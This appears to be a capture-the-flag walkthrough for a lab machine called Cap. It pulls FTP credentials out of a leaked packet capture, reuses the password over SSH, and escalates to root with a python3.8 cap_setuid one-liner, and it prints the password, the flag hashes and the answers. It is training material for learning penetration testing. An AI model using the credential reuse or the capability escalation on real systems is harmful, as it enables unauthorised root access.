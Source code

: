 #capabilities

How many TCP ports are open?

`3`

After running a "Security Snapshot", the browser is redirected to a path of the format `/[something]/[id]`, where `[id]` represents the id number of the scan. What is the `[something]`?

`http://10.10.10.245/data/3`

Are you able to get to other users' scans?

`yes`

What is the ID of the PCAP file that contains sensative data?

http://10.10.10.245/data/0

Which application layer protocol in the pcap file can the sensetive data be found in?

`http`

Which application layer protocol in the pcap file can the sensetive data be found in?

`ftp`

We've managed to collect nathan's FTP password. On what other service does this password work?

```
220 (vsFTPd 3.0.3)

USER nathan

331 Please specify the password.

PASS Buck3tH4TF0RM3!

230 Login successful.

SYST

215 UNIX Type: L8

```

```
ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Dec 16 22:07:37 UTC 2024

  System load:           0.01
  Usage of /:            36.7% of 8.73GB
  Memory usage:          34%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb0:5a2

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Dec 16 20:06:32 2024 from 10.10.14.209
```


Submit the flag located in the nathan user's home directory.

```
nathan@cap:~$ pwd
/home/nathan
nathan@cap:~$ ls
snap  user.txt
nathan@cap:~$ cat user.txt
4d54803998458d852b1f06e763de94c3

nathan@cap:~$
```

What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$

/usr/bin/python3.8
```


Submit the flag located in root's home directory.

```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# ls
snap  user.txt
# cd /root
# ls
root.txt  snap
# cat root.txt
471f2057170e241ba7e90fc3490e7629
#
```

`471f2057170e241ba7e90fc3490e7629`

## Rererecias 
- https://gtfobins.github.io/gtfobins/python/#capabilities
